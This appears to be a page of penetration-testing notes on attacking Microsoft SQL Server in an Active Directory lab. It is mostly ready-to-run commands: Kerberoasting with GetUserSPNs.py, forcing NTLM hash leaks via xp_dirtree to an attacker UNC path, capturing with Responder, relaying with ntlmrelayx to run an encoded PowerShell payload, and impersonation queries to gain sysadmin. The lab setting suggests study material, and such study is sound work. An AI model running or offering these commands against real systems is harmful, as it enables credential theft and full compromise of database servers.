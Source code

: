 SetSPN

```
> setspn -T corp1 -Q MSSQLSvc/*
```

Impacket

```
GetUserSPNs.py -dc-ip 192.168.83.5 corp1.com/admin:lab
```

### UNC Path Hash Theft

Force an auth request

```
EXEC master..xp_dirtree "\\<attacker ip>\\test";
```

Capture

```
responder -I tun0
```

Relay

```
ntlmrelayx.py --no-http-server -smb2support -t 192.168.83.6 -c 'powershell -exec bypass -enc JABk[...]AAoA
```

### Impersonation

#### Login Level

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

Test

```
EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER;
```

#### Database User Level 

Two pre-reqs:
1. user has been granted impersonation
2. db user can only perform actions on a given db (impersonation of a user w/ sysadmin role membership in a db does not necessarily lead to server-wide sysadmin role membership)

To fully compromise the server, the db user we imperonsate must be in a db that has the `TRUSTWORTHY` propery set

```
use msdb; EXECUTE AS USER = 'dbo'; SELECT SYSTEM_USER;
```
